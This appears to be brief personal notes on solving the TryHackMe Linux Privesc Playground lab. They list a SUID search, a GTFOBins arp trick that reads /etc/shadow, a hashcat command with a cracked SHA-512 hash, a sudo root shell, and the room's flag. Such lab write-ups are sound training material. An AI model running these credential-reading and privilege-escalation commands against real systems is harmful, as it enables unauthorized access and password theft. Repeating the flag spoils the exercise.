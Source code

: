 # Matheus Jesus 11-04-2020

## Try Hack Me - Linux Privesc Playground (https://tryhackme.com/room/privescplayground)

### IP 10.10.169.48

### SSH CREDS user:password

#### user is already root

cat /root/flag.txt
flag.txt -> THM{3asy_f14g_1m40}

#### SUID

find / -perm /u=s 2>/dev/null

https://gtfobins.github.io/gtfobins/arp/
(https://github.com/mzfr/gtfo)
exploit it to read files

```sh
LFILE=/etc/shadow
sudo arp -v -f "$LFILE"
```

##### Shadow crack

hashcat -m 1800 -a 0 -o found1.txt hash.txt /usr/share/wordlists/rockyou.txt --force
$6$uTSx9lr5$aUa23L083PGfA1NYsK36QXotKO.2duX0PRDClSdL3IFa74Hm0NspHgr1wdhzbWugsRNSKfMJg5tblqdy6EKdh/:password

#### Sudo

try running

sudo /bin/bash
